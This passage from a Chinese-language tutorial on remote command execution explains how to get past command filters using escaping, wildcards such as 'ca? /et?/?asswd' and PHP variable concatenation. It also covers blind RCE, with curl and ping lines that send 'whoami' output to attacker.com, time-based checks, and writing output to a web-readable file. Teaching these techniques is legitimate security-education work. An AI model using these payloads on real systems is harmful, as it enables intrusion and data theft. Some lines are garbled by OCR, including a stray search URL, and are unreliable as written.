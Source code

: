 •**反斜杠和引号转义：**  
 利用 PHP 等语言中对字符串解析的特性。  
•sy\stem  
•sy'stem'  
 (单引号)  
•sy"stem"  
 (双引号)  
  
•**通配符：**  
 在命令注入中，利用 *  
, ?  
 等通配符代替命令或文件名中的字符。  
•ca? /et?/?asswd  
•s*m 'ls -al /'  
 (如果 system  
 是唯一匹配的函数)  
  
•**变量替换：**  
 将危险字符串存储在变量中，再引用变量。  
•$a='sy';$b='stem';$a.$b('ls -al /');  
 (PHP)  
### 3. 无回显 RCE 的利用（Blind RCE）  
  
有时 RCE 成功执行了命令，但应用程序没有将命令的输出返回给攻击者。这被称为无回显 RCE 或盲 RCE。  
  
•**带外通信 (Out-of-Band, OOB)：**  
  
•**DNS 请求：**  
 让目标服务器发起 DNS 查询到攻击者控制的域名，域名中包含命令执行的结果。  
  
•ping -c 1 \  
whoami`  
https://www.google.com/search?q=.attacker.com`[1]  
(将whoami\  
 的结果作为子域名)  
  
•**HTTP/HTTPS 请求：**  
 让目标服务器发起 HTTP/HTTPS 请求到攻击者控制的服务器，并将命令执行结果通过请求参数或 Body 发送回去。  
•curl http://attacker.com/?result=\  
whoami``  
  
•**其他协议：**  
 FTP, SMTP 等。  
  
  
•**延时注入 (Time-based Blind RCE)：**  
 根据命令执行的时间延迟来判断命令是否成功执行。  
•sleep 5  
 或 ping -c 5 127.0.0.1  
•  
结合条件语句：if [ "$(id -u)" -eq 0 ]; then sleep 5; fi  
 (如果用户是 root 则延迟 5 秒)  
  
•**写入文件：**  
 将命令执行结果写入服务器上的某个文件，然后通过 Web 访问该文件。  
•ls -al / > /var/www/html/result.txt  
### 4. WAF 绕过  
  